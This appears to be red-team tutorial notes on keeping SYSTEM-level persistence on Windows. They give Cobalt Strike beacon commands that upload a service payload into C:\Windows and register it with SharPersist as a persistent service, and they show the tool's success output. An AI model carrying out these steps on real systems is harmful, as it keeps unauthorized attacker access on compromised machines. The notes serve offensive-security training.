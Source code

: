 # Elevate SYSTEM Persistence

## Introduction

In Windows, the SYSTEM user is often restricted from interacting with web proxies fora combination of security & operational reasons. When maintaining SYSTEM persistence, we'll have to use P2P or DNS for communication.

## Windows Services

We can use SharPersist & Cobalt Strike to create & upload a new service and beacon payload.

#### Upload Payload

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe persistent-svc.exe
```

#### Maintain Persistence - SharPersist

```
beacon> execute-assembly C:\Tools\SharPersist.exe -t service -c "C:\Windows\persistent-svc.exe" -n "persistent-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\persistent-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: persistent-svc

[+] SUCCESS: Service persistence added
```
